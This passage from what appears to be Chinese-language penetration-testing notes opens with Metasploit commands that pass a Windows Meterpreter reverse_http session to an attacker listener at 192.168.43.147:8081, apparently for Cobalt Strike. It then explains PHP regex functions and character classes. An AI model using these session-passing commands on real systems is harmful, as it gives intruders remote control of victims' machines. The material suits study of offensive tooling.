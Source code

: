 \2. set payload windows/meterpreter/reverse_http

\3. set DisablePayloadHandler true

\4. set lhost 192.168.43.147

\5. set lport 8081

\6. set session 4

\7. run

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps37.jpg)

这时候返回客户端可以发现已经返回一个名为CS的会话

![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps38.jpg)

# 正则表达式

### 渗透测试常用的正则

php中使用正则的两个函数

preg_match_all(正则表达式,匹配字符串)

返回匹配到的次数

preg_replace (正则表达式,替换成什么,匹配字符串)

返回替换后的结果

常用转义字符：

数字：\d

非数字：\D

空白字符(空格、制表符、换页符)：\s

非空白字符：\S

单词字符(26个英文字母+数字+下划线):\w

非单词字符:\W

自定义字符集合

字符集合：[单个字符或字符区间]，用于匹配集合内字符

如：

[a-z] 表示a-z这26个英文字母

[0-9a-z]表示 表示0-9这十个数字和a-z这26个英文字母

[135a-h] 表示1,3,5还有a-h这8个英文字母

注意：两个不同字符段间请勿使用,隔开。

非集：[^单个字符或字符区间]，用于匹配非集合内字符。
